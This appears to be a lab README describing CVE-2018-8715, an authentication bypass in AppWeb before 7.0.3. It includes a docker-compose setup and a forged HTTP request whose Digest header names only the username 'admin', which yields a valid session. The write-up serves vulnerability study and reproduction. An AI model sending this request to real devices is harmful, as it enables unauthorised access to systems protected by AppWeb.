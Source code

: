# AppWeb Authentication Bypass vulnerability (CVE-2018-8715)

[中文版本(Chinese version)](README.zh-cn.md)

AppWeb is an embedded Web Server based on an open source GPL agreement that was developed and maintained by Embedthis Software LLC. It is written in C/C++ and can run on almost any modern operating system. Of course, it aims to provide a Web Application container for embedded devices.

AppWeb can be configured for authentication, which includes the following three authentication methods:

- `basic`, traditional HTTP basic authentication
- `digest`, improved HTTP basic authentication. At this mode, the Cookie will be used to authentication instead of `Authorization` header.
- `form`, HTML based form authentication

In the Appweb versions before 7.0.3, have a logic flaw related to the authCondition function in `http/httpLib.c`. With a forged HTTP request, it is possible to bypass authentication for the `form` and `digest` login types.

Reference link:

- https://ssd-disclosure.com/index.php/archives/3676

## Vulnerability environment

Launch an Appweb 7.0.1 server with `digest` authentication by executing the following command:

```
docker-compose up -d
```

To access `http://your-ip:8080`, you need to enter your account password.

## Exploit

The current username is `admin`, so you can use following request to bypass the authentication:

```
GET / HTTP/1.1
Host: example.com
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Authorization: Digest username=admin


```

As you can see, since we did not pass in the password field, the server error occurred with a `200 status code` and the session setting header:

![](1.png)

The page can be accessed normally with this session header:

![](2.png)
